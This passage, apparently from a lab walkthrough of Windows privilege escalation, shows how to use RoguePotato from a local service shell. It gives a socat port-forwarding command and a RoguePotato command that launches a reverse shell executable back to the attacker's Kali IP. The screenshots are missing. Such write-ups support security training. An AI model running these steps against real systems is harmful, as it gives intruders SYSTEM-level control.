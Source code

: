 <figure><img src=".gitbook/assets/image (42).png" alt=""><figcaption><p>2 - local service shell</p></figcaption></figure>

We have "SeImpersonatePrivilege" now.

<figure><img src=".gitbook/assets/image (43).png" alt=""><figcaption><p>3 - local service shell</p></figcaption></figure>

We have a local service access, now we need to setup a network redirector/port forwarder on our kali linux machine (must use 135 as source port) and redirecting back to Remote on any tcp port.

`sudo socat tcp-listen:135,reuseaddr,fork, tcp:10.18.88.214:4444`&#x20;

> What’s happening in above command is we are opening a port #135 on kali machine, accepting connections, and forwarding the connections to port 4444 on the remote host (target).

Now we need to run rogue potato binary file on target with arguments (on the local system shell we obtained).&#x20;

Before we do that, we need to start another netcat listener on kali machine.

`C:\PrivEsc\RoguePotato.exe -r 10.18.88.214 -e "C:\PrivEsc\reverse.exe" -l 9999` - "-r" (remote IP — Kali IP), "-e" (reverse shell executable path) and "-l" listening port.&#x20;

this is run on the (local system) shell we got earlier in Image 2.

Finally..

<figure><img src=".gitbook/assets/image (46).png" alt=""><figcaption><p>3</p></figcaption></figure>
